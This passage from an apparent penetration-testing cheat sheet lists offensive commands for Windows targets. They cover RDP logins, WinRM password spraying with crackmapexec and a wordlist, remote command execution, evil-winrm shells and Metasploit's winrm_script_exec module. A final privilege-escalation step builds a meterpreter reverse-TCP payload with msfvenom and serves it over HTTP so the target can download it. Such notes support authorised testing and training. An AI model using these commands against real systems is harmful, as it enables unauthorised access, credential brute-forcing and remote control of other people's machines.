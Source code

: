 ```bash
xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT>

xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT> /w:1920 /h:1080 /fonts /smart-sizing
```

#### WINRM

```bash
# WINRM
crackmapexec [OPTIONS]
evil-winrm -i <IP> -u <USER> -p <PASSWORD>

nmap --top-ports 7000 <TARGET_IP>
nmap -sV -p 5985 <TARGET_IP>
```

```bash
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"
crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```bash
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/windows/winrm/winrm_script_exec

set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true

run post/multi/recon/local_exploit_suggester
```



### Windows Privilege Escalation

#### Kernel

```bash
# WIN KERNEL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe -o payload.exe

python3 -m http.server
# Download payload.exe on target
```
